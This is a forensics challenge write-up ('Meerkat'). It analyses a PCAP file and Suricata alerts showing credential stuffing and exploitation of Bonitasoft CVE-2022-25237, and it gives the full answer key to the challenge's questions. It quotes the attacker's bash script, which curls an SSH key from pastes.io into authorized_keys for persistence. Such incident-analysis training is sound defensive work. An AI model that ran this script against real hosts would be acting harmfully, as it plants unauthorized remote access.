





# Meerkat

#wireshark #jq #http

## Speech
> As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

## Analysis
- Two files, a pcap and a json, I opened the pcap with wireshark and i'll use jq for analysing the json file.

### Wireshark
1. The packets protocol analysis tell us they are some HTTP and SSH (both can be very interesting)

2. I'll focus on the HTTP, I ordered by protocol and go on http
! [The beginning of HTTP packets](../../img/Meerkat/01_http_overview.png)
3. We see a lot of 401 from the endpoint */bonita/loginservice*, probably a Brute force, we can look at the packets to see the *HTLM Form* arguments passed and see the "payload" of the attacker
    - We see a lot of "username = "install" & "password" = "install" (not very interesting) but between those we have email of *forela.co.uk* (the company we work for) with not common password, the attacker is probably using a leak of email/password to try to connect (**Credential Stuffing**)
    - Also intersting to see the user-agent is : `python-requests/2.28.1`, so an automated tool/script
    - The IP of the attacker : 156.146.62.213
4. We find the packet with a success connection (packet 2918)

5. Packet 2921 is very interesting, the attacker uploaded a file

   - We can see the filename, also in the *Request URI we have info on how he bypass some restriction
6. After his upload he executed some code on the machine (like whoami or cat /etc/passwd)
7. Let's take a look at the DNS query, we see query to *pastes.io*, why pastes.io ?
    - Let's search for string pastes.io in all packet (Edit>Find Packet...) :
    
    - He did a wget to : *https://pastes.io/raw/bx5gcr0et8* We can do the same, or just visit this webpage, we get :
    ```
    #!/bin/bash
    curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
    sudo service ssh restart
    ```
    - This file is a bash script, this bash script is adding a key to th authorized_keys file of the user .ssh

### JQ
1. I'll begin with a command to get all the alert from the Attacker's IP : `jq 'map(select(.src_ip == "156.146.62.213"))' meerkat-alerts.json`, then I added `| grep 'signature"'` to see what signature/type of alert was raised
    - Interesting signature, seems to be linked to the brute force (also contains the name of the software) : `"signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)"`
    - Two others interesting signautre : `"ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)"` et `"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"`
2. With this : `jq 'map(select(.alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)" or .alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"))' meerkat-alerts.json` But nothing really interesting :/
Now let's go on the Questions, in order to see what we have already answer and not yet find

## Questions
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
    - Bonitasoft (cf. Analysis>JQ>1)
2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
    - *Credential Stuffing (cf. Analysis>Wireshark>3)
3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
    - CVE-2022-25237 (cf. Analysis>JQ>1)
4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
    - i18ntranslation (cf. Analysis>Wireshark>5)
5. How many combinations of usernames and passwords were used in the credential stuffing attack?
    - 56 (I took the command from the Analysis>JQ>1 and then count)
    
6. Which username and password combination was successful?
    - seb.broom@forela.co.uk:g0vernm3nt (cf Analysis>Wireshark>4)
7. If any, which text sharing site did the attacker utilise?
    - pastes.io (cf. Analysis>Wireshark>7)
8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
    - hffgra4unv (cf. Analysis>Wireshark>7)
9. Can you confirmed the file modified by the attacker to gain persistence?
    - /home/ubuntu/.ssh/authorized_keys (cf. Analysis>Wireshark>7)
10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
    - T1098.004 (After a little bit of research we found : [Account Manipulation: SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/))